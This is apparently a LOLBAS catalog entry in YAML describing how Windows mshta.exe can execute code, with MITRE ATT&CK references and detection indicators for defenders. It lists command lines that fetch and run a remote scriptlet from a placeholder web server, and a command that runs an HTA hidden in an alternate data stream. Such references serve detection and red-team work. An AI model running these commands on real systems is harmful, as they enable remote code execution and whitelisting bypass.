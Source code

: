 ```yaml
---
Name: Mshta.exe
Description: Used by Windows to execute html applications. (.hta)
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
    Description: Executes VBScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code hidden in alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 (Does not work on 1903 and newer)
Full_Path:
  - Path: C:\Windows\System32\mshta.exe
  - Path: C:\Windows\SysWOW64\mshta.exe
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct
Detection:
  - IOC: mshta.exe executing raw or obfuscated script within the command-line
  - IOC: Usage of HTA file
Resources:
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Acknowledgement:
  - Person: Casey Smith
    Handle: "@subtee"
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
---
```


